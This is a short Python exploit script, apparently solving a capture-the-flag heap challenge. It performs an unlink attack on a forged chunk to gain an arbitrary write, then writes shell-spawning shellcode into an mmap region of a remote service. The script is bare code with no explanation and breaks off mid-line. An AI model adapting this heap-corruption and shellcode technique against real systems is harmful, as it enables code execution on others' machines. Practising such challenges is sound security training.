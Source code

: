 ```python
	ctx.debug_remote_libc = True

	ctx.symbols = {
		'lst':0x202060,
		'cnt':0x202040,
	}
	def add(size):
		sl(1)
		sla('Size', size)
		ru('Address ')
		addr = int(ru('\n'), 16)
		return addr

	def free(idx):
		sl(2)
		sla('Index', idx)

	def fill(idx, content):
		sl(3)
		sla('Index', idx)
		sa('Content', content)


	while True:
		try:
			rs('remote')
			#ctx.debug(gdbscript='c')

			ru('Mmap: ')
			mmap_addr = int(ru('\n'), 16)

			prog_base = add(0xf8) - 0x202068
			add(0xf0)

			add(0x20)

			target = prog_base+0x202068
			payload1 = p64(0) + p64(0xf1)
			payload1 += p64(target-0x18) + p64(target-0x10)
			payload1 = payload1.ljust(0xf0, '\0')
			payload1 += p64(0xf0)
			fill(0, payload1)

			#unlink
			free(1)

			def vuln_write(addr, content):
				payload = p64(0) + p64(0)
				payload += p64(0xf8) + p64(prog_base+0x202050)
				payload += p64(0x1000) + p64(addr)
				fill(0, payload + '\n')
				sleep(0.5)
				fill(1, content + '\n')


			vuln_write(mmap_addr, asm(shellcraft.sh()))

			add(0x20)

			payload2 = p64(0) + p64(0)
			payload2 += p64(0xf8) + p64(prog_base+0x202050)
			payload2 += p64(0) + p64(0)
			RE
```